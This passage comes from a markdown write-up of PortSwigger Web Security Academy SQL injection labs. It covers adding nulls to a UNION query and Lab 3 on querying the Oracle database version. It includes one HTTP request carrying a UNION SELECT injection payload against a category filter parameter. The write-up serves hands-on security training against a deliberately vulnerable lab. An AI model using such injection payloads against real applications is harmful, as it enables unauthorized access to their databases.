 
Try to add more null values until the server error disappears & the result include `null` value:

![image-20250524155300270](./image/image-20250524155300270.png)

### [Lab 3: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

- Determine the number of columns that are being returned by the query and which columns contain text data:

  ```http
  GET /filter?category=Gifts'+union+select+'n33r9','n33r99'+from+dual-- 
  ```
